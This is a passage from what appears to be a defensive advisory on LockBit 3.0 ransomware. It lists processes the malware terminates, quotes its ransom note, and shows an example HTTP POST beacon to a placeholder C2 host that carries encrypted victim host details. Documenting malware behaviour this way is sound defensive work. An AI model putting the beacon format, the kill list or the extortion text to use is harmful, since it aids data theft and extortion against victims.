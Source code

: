 <td>mydesktopservice</td>
</tr><tr><td>ocautoupds</td>
<td>encsvc</td>
<td>firefox</td>
</tr><tr><td>tbirdconfig</td>
<td>mydesktopqos</td>
<td>ocomm</td>
</tr><tr><td>dbeng50</td>
<td>sqbcoreservice</td>
<td>excel</td>
</tr><tr><td>infopath</td>
<td>msaccess</td>
<td>mspu</td>
</tr><tr><td>onenote</td>
<td>outlook</td>
<td>powerpnt</td>
</tr><tr><td>steam</td>
<td>thebat</td>
<td>thunderbird</td>
</tr><tr><td>visio</td>
<td>winword</td>
<td>wordpad</td>
</tr><tr><td>notepad</td>
<td> </td>
<td> </td>
</tr></tbody></table><h6>LockBit 3.0 Ransom Note</h6>
<blockquote><p>~~~ LockBit 3.0 the world's fastest and most stable ransomware from 2019~~~<br />
>>>>> Your data is stolen and encrypted.<br />
If you don't pay the ransom, the data will be published on our TOR darknet sites. Keep in mind that once your data appears on our leak site, it could be bought by your competitors at any second, so don't hesitate for a long time. The sooner you pay the ransom, the sooner your company will be safe.</p>
</blockquote>
<h6>Network Connections</h6>
<p>If configured, Lockbit 3.0 will send two HTTP POST requests to one of the C2servers. Information about the victim host and bot are encrypted with an Advanced Encryption Standard (AES) key and encoded in Base64.</p>
<table><tbody><tr><td>
<pre>
Example of HTTP POST request
POST <strong><Lockbit C2></strong>/?7F6Da=u5a0TdP0&Aojq=&NtN1W=OuoaovMvrVJSmPNaA5&fckp9=FCYyT6b7kdyeEXywS8I8 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br Content-Type: text/plain
User-Agent: Safari/537.36 <strong><Lockbit User Agent String></strong>
Host: <strong><Lockbit C2></strong>
Connection: Keep-Alive LIWy=RJ51lB5GM&a4OuN=<strong><em><Lockbit
ID></em></strong>&LoSyE3=8SZ1hdlhzld4&DHnd99T=rTx9xGlInO6X0zWW&2D6=Bokz&T1guL=MtRZsFCRMKyBmfmqI& 6SF3g=JPDt9lfJIQ&wQadZP=<strong><em><Base64 encrypted data></em></strong> Xni=AboZOXwUw&2rQnM4=94L&0b=ZfKv7c&NO1d=M2kJlyus&AgbDTb=xwSpba&8sr=EndL4n0HVZjxPR& m4ZhTTH=sBVnPY&xZDiygN=cU1pAwKEztU&=5q55aFIAfTVQWTEm&4sXwVWcyhy=l68FrIdBESIvfCkvYl
Example of information found in encrypted data
{
"bot_version":"X",
"bot_id":"X",
"bot_company":"X", "host_hostname":"X", "host_user":"X",
"host_os":"X",
"host_domain":"X",
"host_arch":"X",
"host_lang":"X", "disks_info":[
{
"disk_name":"X",
"disk_size":"XXXX", "free_size":"XXXXX"
}</pre></td>
